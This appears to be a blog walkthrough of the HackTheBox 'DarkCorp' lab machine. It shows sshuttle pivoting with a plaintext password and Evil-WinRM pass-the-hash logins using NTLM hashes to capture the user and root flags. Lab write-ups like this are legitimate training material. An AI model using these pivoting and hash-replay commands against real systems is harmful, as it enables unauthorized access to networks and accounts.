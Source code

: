 ```yaml
---
title: "DarkCorp - HackTheBox Season 7 Walkthrough"
date: 2025-02-12
author: "Ans Inayat"
categories: [HackTheBox, Penetration Testing]
thumbnail: "https://pbs.twimg.com/media/GjHp3BjWcAAQAVB.jpg"
---
```


## Introduction

DarkCorp is a HackTheBox Season 7 machine that requires pivoting through an internal network using `sshuttle`. This guide will walk you through the steps to gain user and root access.

---

## Initial Access - Pivoting into the Internal Network

First, we need to establish access to the internal network using `sshuttle`. Clone the repository and navigate into the directory:

```bash
git clone https://github.com/sshuttle/sshuttle.git
cd sshuttle
```

Run `sshuttle` to establish a connection:

```bash
./run -r ebelford@<target-ip> -N 172.16.20.0/24
```

Alternatively, you can use:

```bash
sshuttle -r ebelford@<target-ip> -N 172.16.20.0/24
```

Enter the password when prompted:

```
password: ThePlague61780
```

Once connected, we have access to the internal network.

---

## User Access

With network access established, we can log in using Evil-WinRM to retrieve the user flag:

```bash
evil-winrm -i 172.16.20.1 -u "administrator" -H 'fcb3ca5a19a1ccf2d14c13e8b64cde0f'
```

Retrieve the user flag:

```
user flag: <flag_here>
```

Exit the session before proceeding to root access:

```bash
exit
```

---

## Root Access

To obtain root privileges, we log in to the second machine:

```bash
evil-winrm -i 172.16.20.2 -u Administrator -H '88d84ec08dad123eb04a060a74053f21'
```

Retrieve the root flag:

```
root flag: <flag_here>
```

---

## Conclusion

The DarkCorp machine required pivoting using `sshuttle` to gain internal network access, followed by using Evil-WinRM for privilege escalation. This exercise demonstrated network pivoting and Windows privilege escalation techniques essential for red teaming.

Happy hacking! 🚀
